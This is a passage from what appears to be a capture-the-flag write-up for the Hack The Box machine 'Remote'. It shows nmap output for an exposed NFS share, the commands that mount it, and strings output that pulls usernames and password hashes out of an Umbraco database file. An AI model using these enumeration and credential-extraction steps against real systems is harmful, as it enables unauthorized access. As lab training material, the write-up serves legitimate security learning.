     | nfs-showmount:
    |_  /site_backups
    | nfs-statfs:
    |   Filesystem     1K-blocks   Used        Available   Use%  Maxfilesize  Maxlink
    |_  /site_backups  31119356.0  12170588.0  18948768.0  40%   16.0T        1023


3. Create a new folder and mount the directory site_backups to review it's content.
    root@p3:/opt/htb/machines/remote# mount -t nfs 10.10.10.180:/site_backups tmpMount/
    root@p3:/opt/htb/machines/remote# ls -al tmpMount/
    total 123
    drwx------ 2 nobody 4294967294  4096 Feb 23 19:35 .
    drwxr-xr-x 3 root   root        4096 Apr 23 16:05 ..
    drwx------ 2 nobody 4294967294    64 Feb 20 18:16 App_Browsers
    drwx------ 2 nobody 4294967294  4096 Feb 20 18:17 App_Data
    drwx------ 2 nobody 4294967294  4096 Feb 20 18:16 App_Plugins
    drwx------ 2 nobody 4294967294    64 Feb 20 18:16 aspnet_client
    drwx------ 2 nobody 4294967294 49152 Feb 20 18:16 bin
    drwx------ 2 nobody 4294967294  8192 Feb 20 18:16 Config
    drwx------ 2 nobody 4294967294    64 Feb 20 18:16 css
    -rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
    -rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
    drwx------ 2 nobody 4294967294  4096 Feb 20 18:16 Media
    drwx------ 2 nobody 4294967294    64 Feb 20 18:16 scripts
    drwx------ 2 nobody 4294967294  8192 Feb 20 18:16 Umbraco
    drwx------ 2 nobody 4294967294  4096 Feb 20 18:16 Umbraco_Client
    drwx------ 2 nobody 4294967294  4096 Feb 20 18:16 Views
    -rwx------ 1 nobody 4294967294 28539 Feb 20 06:57 Web.config


4. Enumerate the directory and we find Umbraco.sdf. Using strings we find users and their password hash.

    root@nidus:/opt/htb/machines/remote/tmpMount# find . -iname umbraco*
      ..
      ./App_Data/Umbraco.sdf

    root@nidus:/opt/htb/machines/remote/tmpMount/App_Data# strings Umbraco.sdf
      Administrator admin default en-US
      Administrator admin default en-US b22924d5-57de-468e-9df4-0961cf6aa30d
      Administrator admin b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"} en-US f8512f97-cab1-4a4b-a49f-0a2054c47a1d
      admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"} admin@htb.local en-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
      admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"} admin@htb.local en-US82756c26-4321-4d27-b429-1b5c7c4f882f
      smith smith@htb.local jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"} smith@htb.local en-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
      ssmith smith@htb.local jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"} smith@htb.local en-US7e39df83-5e64-4b93-9702-ae257a9b9749
      ssmith ssmith@htb.local 8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"} ssmith@htb.local en-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
